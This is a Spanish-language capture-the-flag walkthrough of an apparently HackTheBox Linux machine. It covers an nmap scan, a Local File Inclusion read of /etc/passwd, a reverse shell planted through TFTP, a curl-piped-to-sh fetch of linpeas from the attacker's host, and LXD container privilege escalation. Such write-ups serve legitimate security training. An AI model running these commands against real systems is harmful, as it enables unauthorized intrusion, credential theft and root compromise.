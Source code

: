 # Included

### 1. 📝 **Introducción**

* **Nivel de Dificultad**: Muy fácil.
* **Tags:**&#x20;
  * **PHP**: PHP es un lenguaje de programación ampliamente utilizado para el desarrollo web, especialmente en aplicaciones dinámicas. Debido a su gran flexibilidad, es común encontrar aplicaciones personalizadas que no siguen las mejores prácticas de seguridad. Esto puede generar vulnerabilidades como inyecciones de código o fallos en el manejo de datos sensibles. La seguridad en aplicaciones PHP requiere configuraciones cuidadosas, validación de entrada y el uso de buenas prácticas en el manejo de sesiones y contraseñas.
  * **Custom Applications (Aplicaciones Personalizadas)**: Las _Custom Applications_ son aquellas aplicaciones desarrolladas específicamente para satisfacer necesidades particulares de una organización. Estas aplicaciones pueden carecer de las mejores prácticas de seguridad, lo que puede generar vulnerabilidades significativas si no se gestionan correctamente. Además, debido a que son diseñadas a medida, es más difícil llevar a cabo auditorías de seguridad y mantenerlas actualizadas.
  * **Protocols (Protocolos)**: Los protocolos son un conjunto de reglas y estándares que permiten la comunicación entre dispositivos en una red. Ejemplos de protocolos incluyen TCP/IP, HTTP, SMB y FTP. Comprender cómo funcionan los protocolos es clave en las pruebas de penetración, ya que a menudo son los puntos de acceso utilizados por los atacantes. Una configuración incorrecta de estos protocolos puede crear vectores de ataque, permitiendo que los atacantes exploten vulnerabilidades.
  * **Apache**: Apache es uno de los servidores web más utilizados, conocido por su flexibilidad y su capacidad para manejar aplicaciones web dinámicas y estáticas. Sin embargo, si no se configura adecuadamente, Apache puede ser vulnerable a una variedad de ataques como inyecciones SQL, ejecución remota de código o divulgación de información sensible. Asegurarse de que Apache esté correctamente configurado y actualizado es esencial para mitigar estos riesgos.
  * **TFTP (Trivial File Transfer Protocol)**: TFTP es un protocolo de transferencia de archivos simplificado, usado principalmente en redes para transferir archivos de configuración o sistemas operativos. A pesar de su utilidad, TFTP no proporciona mecanismos de seguridad, como autenticación o cifrado, lo que lo convierte en un blanco fácil para ataques. El uso de TFTP debe ser restringido a redes internas o entornos controlados, donde no haya riesgos de exposición.
  * **LXD**: LXD es una herramienta de contenedores para sistemas Linux que permite ejecutar aplicaciones de manera aislada, ofreciendo un entorno seguro y eficiente. Aunque LXD es útil para gestionar contenedores y facilitar el aislamiento de aplicaciones, una configuración incorrecta puede exponer los contenedores a vulnerabilidades, permitiendo a un atacante escapar del contenedor y acceder a recursos no autorizados del sistema host.
  * **Reconnaissance (Reconocimiento)**: El _Reconocimiento_ es una fase crítica en las pruebas de penetración, en la que se recopila toda la información posible sobre el objetivo, como puertos abiertos, servicios en ejecución y configuraciones de seguridad. Las herramientas y técnicas como escaneo de puertos, análisis de tráfico y descubrimiento de versiones son esenciales en esta fase para identificar vectores de ataque y debilidades en la infraestructura.
  * **Local File Inclusion (LFI)**: La vulnerabilidad de _Local File Inclusion_ ocurre cuando un atacante puede incluir archivos locales en un servidor a través de una entrada de usuario no validada. Esto puede permitir la ejecución de código malicioso o la exposición de archivos sensibles, lo que compromete la seguridad de la aplicación. La mitigación de LFI implica validar estrictamente las rutas de archivos y emplear medidas de seguridad adecuadas para restringir el acceso a archivos del sistema.
  * **Clear Text Credentials (Credenciales en Texto Claro)**: Las _Clear Text Credentials_ son credenciales que se transmiten sin cifrado, lo que permite a un atacante interceptarlas fácilmente en una red. Esta vulnerabilidad es común en protocolos como HTTP o FTP si no se utiliza cifrado. Es fundamental que las credenciales se manejen de manera segura, utilizando protocolos como HTTPS o SSH para cifrar la información sensible durante la transmisión.
  * **Arbitrary File Upload (Carga Arbitraria de Archivos)**: La _Arbitrary File Upload_ es una vulnerabilidad que permite a un atacante cargar archivos no autorizados en un servidor, lo que puede incluir scripts maliciosos, archivos ejecutables o incluso archivos con configuraciones dañinas. Esta vulnerabilidad es peligrosa porque permite la ejecución remota de código en el servidor. Para mitigarla, es importante validar los tipos de archivo y las extensiones antes de permitir que los usuarios carguen archivos en el servidor.

### 2. 🛠️ **Entorno**

Nos descargamos nuestra VPN y nos conectamos.

```
sudo openvpn nombre_del_archivo.vpn
```

Iniciamos la máquina y verificamos la conexión.

```bash
ping -c 1 10.129.69.1
```

<figure><img src="../../../.gitbook/assets/image (1208).png" alt=""><figcaption></figcaption></figure>

Observamos que tenemos conexión y que es una máquina **Linux** ya que su **ttl=63**.

### 3. 🔍 **Reconocimiento**

A continuación, se realiza el comando:

```bash
nmap -sCV -Pn 10.129.69.1
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.&#x20;

<figure><img src="../../../.gitbook/assets/image (1209).png" alt=""><figcaption></figcaption></figure>

### 4. 🚪 **Acceso Inicial**

Como podemos observar durante el escaneo, el puerto **80** perteneciente al servicio **HTTP** está abierto. A continuación, se indagará más sobre estos servicios.

<figure><img src="../../../.gitbook/assets/image (1210).png" alt=""><figcaption></figcaption></figure>

Tenemos la vulnerabilidad Local File Inclusion.

```bash
http://10.129.69.1/?file=/etc/passwd
```

<figure><img src="../../../.gitbook/assets/image (1211).png" alt=""><figcaption></figcaption></figure>

Vemos que tenemos un servicio **tftp** por lo que podemos subir una Reverse Shell.

{% embed url="https://www.revshells.com/" %}

<figure><img src="../../../.gitbook/assets/image (1212).png" alt=""><figcaption></figcaption></figure>

Nos ponemos en esucha.

```bash
http://10.129.69.1/?file=/var/lib/tftpboot/hola.php

nc -lnvp 4444
```

<figure><img src="../../../.gitbook/assets/image (1213).png" alt=""><figcaption></figcaption></figure>

Vamos al directorio `/var/www/html` para ver el contenido **.htpasswd**.

<figure><img src="../../../.gitbook/assets/image (1214).png" alt=""><figcaption></figcaption></figure>

Nos logueamos con esas credenciales.

<figure><img src="../../../.gitbook/assets/image (1215).png" alt=""><figcaption></figcaption></figure>

Nos descargamos **LinPeas.sh**.

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/download/20240131-07961633/linpeas.sh
```

Nos la trasladamos a mike.

```bash
python3 http.server
#Terminal Mike
curl http://10.10.16.35:8000/linpeas.sh | sh
```

<figure><img src="../../../.gitbook/assets/image (1216).png" alt=""><figcaption></figcaption></figure>

En nuestra máquina local.

```bash
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
sudo ./build-alpine -a i686
```

<figure><img src="../../../.gitbook/assets/Captura de pantalla 2025-02-14 111913.png" alt=""><figcaption></figcaption></figure>

En nuestra máquina remota.

```bash
wget http://10.10.16.35:8000/alpine-v3.13-x86_64-20210218_0139.tar.gz
```

<figure><img src="../../../.gitbook/assets/image (1217).png" alt=""><figcaption></figcaption></figure>

Ejcutamos y creamos el contenedor para ponerlo en marcha.

```bash
lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias tidur
lxc init tidur my-container
lxc start my-container
lxc exec my-container -- /bin/sh
```

<figure><img src="../../../.gitbook/assets/Captura de pantalla 2025-02-14 112334.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/Captura de pantalla 2025-02-14 112911.png" alt=""><figcaption></figcaption></figure>
